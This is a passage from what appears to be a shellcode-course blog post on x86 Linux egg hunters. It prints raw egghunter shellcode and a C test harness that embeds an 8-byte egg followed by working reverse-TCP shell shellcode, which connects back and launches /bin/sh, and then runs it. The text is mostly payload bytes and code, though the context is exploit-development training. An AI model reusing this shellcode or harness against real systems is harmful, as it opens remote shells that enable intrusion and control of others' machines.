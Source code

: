 ```shell
\x31\xd2\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x90\x50\x90\x50\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7
```

#### Demonstrating the Egg Hunter
As demonstrated in previous posts, the `sc_test.c` program can be used to test the `egghunter` shellcode. As the Egg Hunter technique is a type of staged payload, the `egghunter` portion cannot be tested without a complementary shellcode that is prepended by the 8-byte egg as explained earlier in this post. With that being said, the `shell_reverse_tcp` reverse shell shellcode from the "Create A Shell_Reverse_TCP Shellcode" paper will be used for this purpose. Additionally, `sc_test.c` has been modified to print the length of the `egghunter` shellcode as well as the length of `shell_reverse_tcp` shellcode prepended with the 8-byte egg.

To test the `egghunter` shellcode with a different payload, simply replace the payload contents below the `/* Current payload: */` comment with the desired shellcode payload. The source code for this file can be found on [GitHub](https://github.com/norrismw/SLAE).

```c
#include <stdio.h>
#include <string.h>

/*
To compile:
gcc -m32 -fno-stack-protector -z execstack sc_test.c -o sc_test
*/

unsigned char egghunter[] = \
    "\x31\xd2\x66\x81\xca\xff\x0f\x42"
    "\x8d\x5a\x04\x6a\x21\x58\xcd\x80"
    "\x3c\xf2\x74\xee\xb8\x90\x50\x90"
    "\x50\x89\xd7\xaf\x75\xe9\xaf\x75"
    "\xe6\xff\xe7";

unsigned char shellcode[] = \
    /* Egg */
    "\x90\x50\x90\x50\x90\x50\x90\x50"
    /* Insert any other payload below */
    /* Current payload: Reverse Shell TCP */
    "\x31\xdb\xf7\xe3\x52\x6a\x01\x6a"
    "\x02\x89\xe1\xfe\xc3\xb0\x66\xcd"
    "\x80\x89\xc3\xbf\xff\xff\xff\xff"
    "\xb9\x80\xff\xff\xfe\x31\xf9\x51"
    "\x66\x68\x11\x5c\x66\x6a\x02\x89"
    "\xe1\x6a\x10\x51\x53\x89\xe1\xb0"
    "\x66\xcd\x80\x89\xd1\xb0\x3f\xcd"
    "\x80\xfe\xc1\xb0\x3f\xcd\x80\xfe"
    "\xc1\xb0\x3f\xcd\x80\x52\x68\x2f"
    "\x2f\x73\x68\x68\x2f\x62\x69\x6e"
    "\x89\xd1\x89\xe3\xb0\x0b\xcd\x80";

int main(void)
{   
    printf("Egghunter Length: %d\n", strlen(egghunter));
    printf("Shellcode Length: %d\n", strlen(shellcode));
    int (*ret)() = (int(*)())egghunter;
    ret();
}
```
